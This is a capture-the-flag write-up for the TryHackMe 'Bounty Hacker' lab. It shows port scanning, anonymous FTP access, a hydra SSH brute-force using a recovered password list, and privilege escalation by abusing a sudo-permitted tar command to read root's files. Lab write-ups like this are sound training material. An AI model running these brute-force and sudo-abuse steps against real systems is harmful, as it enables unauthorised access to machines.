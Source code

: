 
# Index

1. [Setup](#setup)
2. [Enumeration](#enumeration)
3. [Gaining Access](#gaining-access)
4. [Privilage Escalation](#privilage-escalation)
5. [Conclusion](#conclusion)

## Setup

To begin this challenge, we first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using `openvpn` to connect to the server. Here's the command:

```console
$ sudo openvpn --config NovusEdge.ovpn
```

## Enumeration

Now that we're connected to the TryHackMe server, we can proceed with enumerating the target machine. First, we need to check for open ports on the target:

> Be sure to deploy the machine before proceeding >.>

```console
$ sudo nmap -sS -p- -v MACHINE_IP
...
...
Discovered open port 80/tcp on MACHINE_IP
Discovered open port 22/tcp on MACHINE_IP
Discovered open port 21/tcp on MACHINE_IP
...
PORT      STATE  SERVICE         REASON
...
21/tcp    open   ftp             syn-ack ttl 63
22/tcp    open   ssh             syn-ack ttl 63
80/tcp    open   http            syn-ack ttl 63
...
...
```

We now know that the target machine has 3 open ports: `21`, `22` and `80` for services: `ftp`, `ssh` and `http` respectively.

We can now use this to work our way to gaining access into the target machine...

## Gaining Access 

Let's first proceed with trying to log into the ftp server on the target using the `ftp` command:

```console
$ ftp MACHINE_IP
Connected to MACHINE_IP.
220 (vsFTPd 3.0.3)
Name (MACHINE_IP:novusedge): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files. 
ftp> 
```

Using the username: `anonymous` granted us access to the ftp server. Now we can check for any files that we can grab:

```console
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```

There are 2 files, `locks.txt` and `task.txt`. We can download them to our local machine like so:

```console
ftp> get locks.txt

ftp> get task.txt
```

Now, since we have the files, let's exit out, and check the contents of the files thus obtained...

task.txt: 
```txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

locks.txt:
```txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

From the contents of the first file, we get the answer to the third task on the challenge.

> Who wrote the task list?
> > Answer: lin

As the fourth task suggests, the file: `locks.txt` contains possible passwords for the ssh service on the target machine. Assuming that `lin` is the username we use for logging into the ssh server, we can brute-force this by using a tool like `hydra`:


```console
$ hydra -l lin -P locks.txt MACHINE_IP ssh
...
[22][ssh] host: MACHINE_IP   login: lin   password: RedDr4gonSynd1cat3
...
```

This gives us the answer to fifth task:
> What is the users password? 
> > RedDr4gonSynd1cat3

Let's try logging into the ssh server on the target with the credentials we've obtained:

```console
$ ssh lin@MACHINE_IP 
lin@MACHINE_IP's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Thu Jun 23 13:06:21 2022 from 10.11.69.69

lin@bountyhacker:~/Desktop$
```

We can get the user flag from lin's home directory:

```console
lin@bountyhacker:~/Desktop$ ls
user.txt

lin@bountyhacker:~/Desktop$ cat user.txt
R̶̛̛̛̻͉̜͒͋̀̈́͛͘͠E̷̲̓̋D̸̤͔̒A̷̘̝̞͓̞̰̋́̾̑̈̐̓̊̕͝C̵͚͍̥̬͇̠͎͎̯̏͑̂̈́̀̽̅̔͜T̶̡͍̭̎̒́̆̈Ê̶̦̙̬͙̠̯̰̱̏̕͜D̶͕̮̀̂̾͗̀͛̅͘͘͝
```

This gives us the answer to the 6th task:
> user.txt
> > R̶̛̛̛̻͉̜͒͋̀̈́͛͘͠E̷̲̓̋D̸̤͔̒A̷̘̝̞͓̞̰̋́̾̑̈̐̓̊̕͝C̵͚͍̥̬͇̠͎͎̯̏͑̂̈́̀̽̅̔͜T̶̡͍̭̎̒́̆̈Ê̶̦̙̬͙̠̯̰̱̏̕͜D̶͕̮̀̂̾͗̀͛̅͘͘͝


## Privilage Escalation

Now that we have a foothold, we can now proceed with getting root privilages :3
First, let's check if we have any commands we can execute with root privilages and no passwords:

```console
lin@bountyhacker:~/Desktop$ sudo -ll
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:

Sudoers entry:
    RunAsUsers: root
    Commands:
	/bin/tar
```

Interesting...We can use the `tar` command as root without passwords. Assuming that the `root.txt` is in the `/root/` directory, we can use the following to create a tar archive of all files in the `/root/` directory in `/home/lin/Desktop`:

```console
lin@bountyhacker:~/Desktop$ sudo tar -cf files.tar /root
tar: Removing leading `/' from member names

lin@bountyhacker:~/Desktop$ ls
files.tar  user.txt

# Uncompressing the tar archive to get the files:
lin@bountyhacker:~/Desktop$ tar -xf files.tar 
lin@bountyhacker:~/Desktop$ ls -l
-rw-r--r-- 1 root root 20480 Jun 23 13:21 files.tar
drwx------ 5 lin  lin   4096 Jun  7  2020 root
-rw-rw-r-- 1 lin  lin     21 Jun  7  2020 user.txt

lin@bountyhacker:~/Desktop$ ls -l root/
total 4
-rw-r--r-- 1 lin lin 19 Jun  7  2020 root.txt
```

We can now just `cat` the contents of our `root.txt` file thus obtained:

```console
lin@bountyhacker:~/Desktop$ cat root/root.txt 
R̶̛̛̛̻͉̜͒͋̀̈́͛͘͠E̷̲̓̋D̸̤͔̒A̷̘̝̞͓̞̰̋́̾̑̈̐̓̊̕͝C̵͚͍̥̬͇̠͎͎̯̏͑̂̈́̀̽̅̔͜T̶̡͍̭̎̒́̆̈Ê̶̦̙̬͙̠̯̰̱̏̕͜D̶͕̮̀̂̾͗̀͛̅͘͘͝
```

Done! This gives the answer to the final task.

> root.txt
> > R̶̛̛̛̻͉̜͒͋̀̈́͛͘͠E̷̲̓̋D̸̤͔̒A̷̘̝̞͓̞̰̋́̾̑̈̐̓̊̕͝C̵͚͍̥̬͇̠͎͎̯̏͑̂̈́̀̽̅̔͜T̶̡͍̭̎̒́̆̈Ê̶̦̙̬͙̠̯̰̱̏̕͜D̶͕̮̀̂̾͗̀͛̅͘͘͝

## Conclusion

I hope this writeup was useful. Personally, I found this room to be quite a fun little experience. If you liked this, please consider dropping a star and/or following me on github: https://github.com/NovusEdge

***

- Room  : [Bounty Hacker](https://tryhackme.com/room/cowboyhacker) by [Sevuhl](https://tryhackme.com/p/Sevuhl)
- Author: Aliasgar Khimani
